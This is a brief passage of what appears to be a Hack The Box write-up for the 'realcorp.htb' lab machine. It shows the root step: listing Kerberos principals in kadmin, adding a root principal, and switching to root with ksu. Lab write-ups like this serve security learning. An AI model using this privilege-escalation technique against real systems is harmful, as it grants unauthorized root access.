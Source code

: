after login I listed all the users

```
list_principals

K/M@REALCORP.HTB
host/srv01.realcorp.htb@REALCORP.HTB
j.nakazawa@REALCORP.HTB
kadmin/admin@REALCORP.HTB
kadmin/changepw@REALCORP.HTB
kadmin/srv01.realcorp.htb@REALCORP.HTB
kiprop/srv01.realcorp.htb@REALCORP.HTB
krbtgt/REALCORP.HTB@REALCORP.HTB
```

there was no root

so just add the root principal

```
add_principal root@REALCORP.HTB
```

type the password and exit the console

then type ksu and login

ROOTED

